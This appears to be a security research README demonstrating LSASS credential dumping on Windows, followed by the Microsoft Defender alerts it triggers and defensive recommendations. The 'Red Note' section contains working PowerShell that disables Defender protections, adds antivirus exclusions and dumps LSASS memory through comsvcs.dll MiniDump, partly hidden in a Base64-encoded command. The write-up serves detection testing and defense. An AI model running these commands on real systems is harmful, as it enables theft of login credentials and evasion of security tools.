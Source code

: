 # LSASS dumping, MiniDump
Hackers might target LSASS to grab login credentials stored in its memory. 
After a user logs in, LSASS stores important credential info that can be stolen by attackers to move through a system using different authentication details.

Microsoft Defender for Endpoint and Defender Antivirus effectively prevent and detect LSASS dumping activities. 
Now, I'd like to demonstrate the detection perspective by ***capturing all activities and correlating multiple alerts into a single incident***.

## Red Note (test insights)
**PowerShell, LSASS credential dumping, Built-in Windows tool** 
```powershell
$lsassPID = (Get-Process -Name lsass).Id
cmd.exe /C "C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump $lsassPID C:\temp\out.dmp full" 
```

**Attack Script**
- [x] Download [a script](https://github.com/LearningKijo/ResearchDev/blob/main/DEV/DEV04-LSASSdumping-MiniDump/Dev04Ninja.ps1) ↓

```powershell
# Disable Microsoft Defender Antivrus tool
Set-MpPreference -DisableRealtimeMonitoring $true -ExclusionPath "C:\" -DisableBlockAtFirstSeen $true -DisableEmailScanning $true -DisableScriptScanning $true -ExclusionExtension "exe"

# Create "C:\temp" for a dump file
$tempDir = "C:\temp"
if (-not (Test-Path $tempDir -PathType Container)) {
        New-Item -Path $tempDir -ItemType Directory
}

# Wait for 10 seconds
Start-Sleep -Seconds 10

# LSASS dumping using the built-in Windows tool, Encoded by Base64
powershell.exe -e JABsAHMAYQBzAHMAUABJAEQAIAA9ACAAKABHAGUAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAE4AYQBtAGUAIABsAHMAYQBzAHMAKQAuAEkAZAANAAoAYwBtAGQALgBlAHgAZQAgAC8AQwAgACIAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAHIAdQBuAGQAbABsADMAMgAuAGUAeABlACAAQwA6AFwAVwBpAG4AZABvAHcAcwBcAFMAeQBzAHQAZQBtADMAMgBcAGMAbwBtAHMAdgBjAHMALgBkAGwAbAAsACAATQBpAG4AaQBEAHUAbQBwACAAJABsAHMAYQBzAHMAUABJAEQAIABDADoAXAB0AGUAbQBwAFwAbwB1AHQALgBkAG0AcAAgAGYAdQBsAGwAIgA=
```
> [!Note]
> This script will perform the following actions:
> 1. Disable Microsoft Defender Antivrus tool
> 2. Create "C:\temp" for a dump file
> 3. LSASS dumping using the built-in Windows tool (Encoded by Base64)
> 
> Make sure that [MDE Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc) is disabled.

## Alerts & Detections
After running the script, these alerts were generated and correlated into a single incident in Microsoft Defender XDR portal.
- [x] Suspicious PowerShell command line
- [x] Sensitive credential memory read
- [x] Suspicious process executed PowerShell command
- [x] Suspicious access to LSASS service
- [x] Process memory dump
- [x] Suspicious Process Discovery
- [x] Suspicious Microsoft Defender Antivirus exclusion
- [x] Attempt to turn off Microsoft Defender Antivirus protection

![image](https://github.com/LearningKijo/ResearchDev/assets/120234772/c3c23a51-799e-434b-b914-c48acbc2bee7)

## Blue Note
- Turn on [Microsoft Defender Antvirus](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/next-generation-protection?view=o365-worldwide) (Including Real-Time Protection, Cloud Protection, Sample Submission and so on)
- Turn on [Tamper Protection](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/prevent-changes-to-security-settings-with-tamper-protection?view=o365-worldwide&ocid=magicti_ta_learndoc)
- Onboarding [Microsoft Defender for Endpoint](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/microsoft-defender-endpoint?view=o365-worldwide)

## Reference
- [OS Credential Dumping: LSASS Memory, T1003.001](https://attack.mitre.org/techniques/T1003/001/)
- [Detecting and preventing LSASS credential dumping attacks](https://www.microsoft.com/en-us/security/blog/2022/10/05/detecting-and-preventing-lsass-credential-dumping-attacks/)

#### Disclaimer
The views and opinions expressed herein are those of the author and do not necessarily reflect the views of company.
